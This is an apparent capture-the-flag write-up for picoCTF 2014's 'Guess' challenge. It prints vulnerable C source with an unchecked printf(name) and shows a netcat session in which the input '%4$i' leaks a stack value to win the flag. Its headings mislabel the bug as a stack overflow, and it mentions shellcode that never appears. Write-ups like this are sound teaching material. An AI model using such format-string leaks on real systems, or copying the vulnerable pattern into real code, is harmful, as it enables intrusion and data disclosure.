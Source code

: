 # Pico CTF 2014 : Guess
## **[Principle]**
stack overflow
## **[Purpose]**
Master the general process of PWN topics
## **[Environment]**
Ubuntu
## **[Tools]**
gdb、objdump、python
## **[Process]**


The source code was available for download so it was really quick to spot the vuln:

```c
	#include <stdio.h>
	#include <stdlib.h>

	char *flag = "~~FLAG~~";

	void main(){
	    int secret, guess;
	    char name[32];
	    long seed;

	    FILE *f = fopen("/dev/urandom", "rb");
	    fread(&secret, sizeof(int), 1, f);
	    fclose(f);

	    printf("Hello! What is your name?\n");
	    fgets(name, sizeof(name), stdin);

	    printf("Welcome to the guessing game, ");
	    printf(name);
	    printf("\nI generated a random 32-bit number.\nYou have a 1 in 2^32 chance of guessing it. Good luck.\n");

	    printf("What is your guess?\n");
	    scanf("%d", &guess);

	    if(guess == secret){
		printf("Wow! You guessed it!\n");
		printf("Your flag is: %s\n", flag);
	    }else{
		printf("Hah! I knew you wouldn't get it.\n");
	    }
	}
```

At line 19 there is a wonderful printf(name), which obviously results in a format string exploitable bug.

The program is pretty simple in its functionality, what it does is to open a file from which it reads the flag, then it generates a random number and asks you for your name.
Then it asks you to guess the number it generated.

Obviously abusing the format string bug, we can leak the informations from memory, read the number from the stack and reply with the correct answer, at which point we are returned the flag.

On my local machine using gdb could spot where the number was stored on the stack very precisely, which was at %14$i.
This didn't work on the real target most likely because the binary was compiled under a different system, but with a little of brute forcing, i could eventually work things out

	$ nc vuln2014.picoctf.com 4546
	Hello! What is your name?
	%4$i
	Welcome to the guessing game, -1715610369

	I generated a random 32-bit number.
	You have a 1 in 2^32 chance of guessing it. Good luck.
	What is your guess?
	-1715610369
	Wow! You guessed it!
	Your flag is: leak_the_seakret



## **[Summary]**
Master the general idea of doing the PWN topic, learn to find and modify shellcode.